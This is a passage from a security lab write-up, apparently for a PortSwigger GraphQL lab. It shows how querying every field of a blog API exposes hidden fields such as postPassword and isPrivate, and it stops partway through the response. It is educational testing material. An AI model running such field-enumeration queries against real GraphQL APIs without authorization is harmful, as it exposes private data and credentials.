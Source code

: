 **Also, there's 2 queries we can send to the GraphQL API: `getBlogPost` and `getAllBlogPosts`**
```graphql
query {
    getBlogPost(id: 1337) {
        image
        title
        summary
        id
    }
}
```

```graphql
query {
    getAllBlogPosts {
        image
        title
        summary
        id
    }
}
```

Armed with above information, we can try to retrieve all data via `getAllBlogPosts` query **with all fields**:

```graphql
query giveMeAllTheFieldsOfAllPosts{
    getAllBlogPosts {
        id
        image
        title
        author
        date
        summary
        paragraphs 
        isPrivate
        postPassword
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-1/images/Pasted%20image%2020230705132546.png)

> Note: I'm using an extension called "InQL" to modify GraphQL queries easier.

**Response:**
```json
{
  "data": {
    "getAllBlogPosts": [
      {
        "id": 1,
        "image": "/image/blog/posts/23.jpg",
        "title": "The Peopleless Circus",
        "author": "Si Test",
        "date": "2023-06-08T13:25:51.560Z",
        "summary": "[...]",
        "paragraphs": [
          [...]
        ],
        "isPrivate": false,
        "postPassword": null
      },
      {
        "id": 2,
        "image": "/image/blog/posts/28.jpg",
```